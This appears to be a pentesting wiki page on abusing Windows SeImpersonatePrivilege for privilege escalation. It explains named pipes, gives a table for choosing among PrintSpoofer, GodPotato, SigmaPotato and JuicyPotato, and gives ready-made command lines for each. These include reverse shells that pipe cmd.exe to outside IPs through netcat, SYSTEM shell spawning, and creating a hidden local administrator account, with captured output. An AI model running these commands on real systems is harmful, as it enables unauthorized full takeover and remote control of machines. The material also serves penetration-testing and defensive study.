 # SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**. This privilege is normally assigned to Administrator accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, `SeImpersonatePrivilege` is often accessible when gaining code execution through services like **IIS**, which commonly run under accounts that have it.

{% hint style="info" %}
**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time.
{% endhint %}

In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

## PoCs

How to choose the appropriate PoC:

1. Start with PrintSpoofer if the Print Spooler service is running and the system is older (Windows 10 / Server 2016–2019).
2. If PrintSpoofer is patched, try GodPotato (needs a specific COM object).
3. If you want flexibility or older systems, JuicyPotato is usually safest; pick a CLSID and test with `-z`.
4. SigmaPotato is a fallback for very new builds or special configurations where the others fail.

<table><thead><tr><th width="127">Exploit</th><th width="212">Target Mechanism</th><th>Typical Use Case / Notes</th><th>OS Compatibility</th></tr></thead><tbody><tr><td><strong>JuicyPotato</strong></td><td>COM objects implementing <code>IMarshal</code></td><td>Flexible; works with many COM objects. Use <code>-z</code> to test CLSID first.</td><td>Most Windows versions (Server 2008 SP1 and up, including 10/11)</td></tr><tr><td><strong>PrintSpoofer</strong></td><td>RPC / Named Pipes (Print Spooler API)</td><td>Fast and reliable; requires Print Spooler service to be running.</td><td>Windows 10 / 2016–2019 (some patched)</td></tr><tr><td><strong>GodPotato</strong></td><td>COM Server Hijack</td><td>Use when PrintSpoofer is patched; requires specific COM object.</td><td>Newer Windows (10/11)</td></tr><tr><td><strong>SigmaPotato</strong></td><td>Event Log Service / Spooler / WMI</td><td>Fallback when PrintSpoofer and GodPotato fail; depends on legacy service configuration.</td><td>Windows 10+ (better on newer builds)</td></tr></tbody></table>

{% tabs %}
{% tab title="PrintSpofer" %}
[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) is a local privilege escalation exploit that abuses the `SeImpersonatePrivilege` to impersonate the `SYSTEM` account via a named pipe trick. It can be leveraged to sent a reverse shell or execute commands directly:

```powershell
# Reverse shell
PrintSpoofer.exe -c "nc.exe 10.10.13.37 1337 -e cmd"

# Command execution
PrintSpoofer.exe -i -c cmd
```

It can also be used to spawn a `SYSTEM` shell on the desktop, for instance, when logged in via an RDP session:

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>rdp-tcp           lab-user                  3  Active
 
# Spawn a new shell
C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
```
{% endtab %}

{% tab title="GodPotato" %}
[GodPotato](https://github.com/BeichenDream/GodPotato) is a local privilege escalation exploit that abuses `COM` and `SeImpersonatePrivilege` to impersonate `SYSTEM` by hijacking privileged tokens via named pipes.

```powershell
# Reverse shell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"

# Command execution
GodPotato -cmd "cmd /c whoami"
```
{% endtab %}

{% tab title="SigmaPotato" %}
[SigmaPotato](https://github.com/tylerdotrar/SigmaPotato) is a local privilege escalation exploit that leverages the `SeImpersonatePrivilege` and the Event Log service to hijack a `SYSTEM` token through named pipe impersonation.

```powershell
# Reverse shell
./SigmaPotato.exe --revshell <ip_addr> <port>

# Command execution
./SigmaPotato.exe <command>
```

It can be also used to create a new local administrator:

```powershell
> .\sigmapotato.exe "net user dave4 Pass123! /add"
[+] Process Output:
The command completed successfully.


> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
[+] Process Output:
The command completed successfully.

> Get-LocalGroupMember administrators
User        CLIENTWK220\dave4         Local
```
{% endtab %}

{% tab title="JuicyPotato" %}
[JuicyPotato](https://github.com/ohpe/juicy-potato) is a Windows privilege escalation tool that elevates service account privileges to `NT AUTHORITY\SYSTEM` by exploiting COM objects with `SeImpersonatePrivilege`. It instantiates vulnerable COM classes, triggers local NTLM authentication, and executes arbitrary commands with `SYSTEM`-level access. The tool allows specifying CLSID, port, and target executable, making it effective when traditional escalation methods are blocked or systems are hardened. Various CLSID lists can be found [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID).

{% code overflow="wrap" %}
```bash
> Juicy.Potato.x86.exe -p c:\windows\system32\cmd.exe -t * -a "/c C:\wamp\www\nc.exe 192.168.45.241 80 -e cmd.exe" -l 80 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 80
....
[+] authresult 0
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
​
[+] CreateProcessWithTokenW OK
```
{% endcode %}
{% endtab %}
{% endtabs %}
